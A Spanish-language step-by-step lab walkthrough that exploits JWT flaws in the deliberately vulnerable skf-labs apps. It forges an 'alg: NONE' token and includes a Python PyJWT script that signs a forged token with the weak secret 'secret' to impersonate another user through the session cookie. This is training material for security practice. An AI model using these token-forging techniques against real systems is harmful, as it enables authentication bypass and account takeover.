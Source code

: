 # Explotación y guía paso a paso de JWT

## Instalación 

[Laboratorio skf-labs para practicar múltiples vulnerabilidades](https://github.com/blabla1337/skf-labs)

Acción primer laboratorio (sin validación de signature)

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs
cd nodeJs
cd JWT-null
npm install
npm start
```

Acción: segundo laboratorio (con validación de signature)

```bash
cd JWT-secret
npm install
npm start
```

Resultado: ejemplo del primer laboratorio

```bash
> jwt-null@0.0.1 start
> nodemon app

[nodemon] 2.0.14
[nodemon] to restart at any time, enter `rs`
[nodemon] watching path(s): *.*
[nodemon] watching extensions: js,mjs,json
[nodemon] starting `node app.js`
Listening on port 5000...!!!
```

![Captura](./Imágenes/web_1.png)

Explicación: por `localhost:5000` tenemos este laboratorio montado

---
## Explotación 

### Sin validación de signature

Esta página tiene dos usuarios: 'user' y 'user2' con igual contraseña para cada uno. se ponen las credenciales y se le da primero a 'Authenticate' (para que se nos genere el JWT) y luego a 'Admin'. Entonces nos saldrá la siguiente ventana que indicará si somos 'guest' para 'user' o 'mortal' para 'user2'.

![Captura](./Imágenes/web_2.png)

![Captura](./Imágenes/web_4.png)

Al loguearnos en el `DevTools` podemos ver la cookie de sesión asignada. Es un [JWT](JWT.md) el cual identificamos por sus tres partes diferenciadas por `.`  

![Captura](./Imágenes/web_3.png]]

Podemos acudir al recurso web [jwt.io](https://jwt.io/) para visualizar los valores del JWT asignado y analizar su estructura

![Captura](./Imágenes/web_5.png]]

Para poder crear un JWT válido en un servidor que los utiliza para validar a los usuarios y sus permisos. Se requiere de un *signature* el cual coincide con la tercera parte de las 3 que conforma un JWT. Esta sirve para validar la estructura del JWT, sin él no podemos crear un JWT completo válido. 

![[jwt_1.png]]

Sin embargo, existe una mala configuración en los JWT que puede permitir saltarse esta validación del 'signature'. Para ello en el apartado del algoritmo de cifrado `"alg": "HS256` podemos cambiar el valor del tipo de cifrado por `NONE` y tratar así de ignorar la parte del 'signature'. Las dos primeras partes están compuestas por codificación en `base64` por lo que podemos crear manualmente dicha estructura del siguiente modo:

Acción:

```bash
echo -n '{"alg": "NONE","typ": "JWT"}' | base64
```

Resultado:

```bash
eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQ==
```

Explicación: 


Acción:

```bash
echo -n '{"id": 2,"iat": 1749825730,"exp": 1749829330}' | base64
```

Resultado:

```bash
eyJpZCI6IDIsImlhdCI6IDE3NDk4MjU3MzAsImV4cCI6IDE3NDk4MjkzMzB9
```

Explicación:  con el *JWT* `eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQ.eyJpZCI6IDIsImlhdCI6IDE3NDk4MjU3MzAsImV4cCI6IDE3NDk4MjkzMzB9.` tenemos la parte de la ' cabecera' y del 'payload' pero al añadir el valor *'NONE'* y ser aceptado, hemos desestimado el uso de la parte del 'signature'. Esta es una de las formas de vulnerar un JWT si no esta correctamente sanitizado el servidor

Desde el navegador como 'user' podemos cambiar nuestro valor de cookie y tras darle a `enter` darle a la pestaña de 'Admin' y ver que usuario nos valida

![Captura](./Imágenes/web_6.png]]

Confirmamos que esta web permite el ataque de JWT a través del valor *NONE* que evade la validación del token en su apartado de 'signature'

![Captura](./Imágenes/web_7.png]]

---

### Con validación del signature

En el laboratorio 2 tenemos ahora la práctica con un servidor que si valida el apartado de 'signature' ya que requerimos del valor 'secrets' para crear una estructura válida de JWT

![[web2_1.png]]

Explicación: por `localhost:5000` tenemos este laboratorio montado (hay que detener con `ctrl+c` el laboratorio anterior e instalar e iniciar este laboratorio con `npm`


Acción: probamos los mismos pasos que en el ejercicio anterior

![[web2_2.png]]


![[web2_3.png]]


![[web2_4.png]]


Explicación: vemos que tenemos una estructura igual a la anterior, podríamos probar la misma técnica de usar `NONE` en el algoritmo, pero en este caso no va a funcionar

#### Creando un JWT con signature/secreto

**Primero** recomiendo usar una ventana virtual de python

Acción:

```bash
python3 -m venv venv
source venv/bin/activate
```

**Segundo** nos instalamos la siguiente dependencia

Acción:

```bash
pip install --upgrade pyjwt
```

**Tercero** creamos un [[Script JWT]] 

Script: 

```python
#!/usr/bin/env python3
"""
Genera un JWT con HS256 y clave 'secret'
Payload fijo: {"id": 2, "iat": 1749829182, "exp": 1749832782}
"""

import jwt  # PyJWT

header = {
    "alg": "HS256",
    "typ": "JWT"
}

payload = {
    "id": 2,
    "iat": 1749829182,
    "exp": 1749832782
}

secret = "secret"

token = jwt.encode(
    payload,
    secret,
    algorithm="HS256",
    headers=header
)

# PyJWT ≥ 2.0 devuelve str; en versiones < 2.0 devuelve bytes
if isinstance(token, bytes):
    token = token.decode()

print("JWT generado:")
print(token)
```

Resultado:

```bash
JWT generado:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNzQ5ODI5MTgyLCJleHAiOjE3NDk4MzI3ODJ9.3BltosmJv336EnT4pw0DE9oVw4CuvRn21UNpDl43F0o
```

Explicación: con este **JWT creado manualmente con python** podemos tratar de hacer lo mismo que en el ejercicio anterior, modificar la cookie desde el `DevTools` y ver si accedemos como usuario 2

![[web2_5.png]]

Confirmamos el acceso y concluimos la demostración de como explotar un JWT donde se requiere del parámetro 'signature' o 'secreto' para conformar una estructura válida. Señalar que esto es posible solo si la validación del servidor ocurre tan solo con estos parámetros como la cookie de un JWT. Lo cual no siempre es así y suele validarse con otros campos adicionales, como la verificación del token en el servidor, controles de expiración, listas de revocación, o mecanismos complementarios de autenticación que dificultan este tipo de ataques.

---
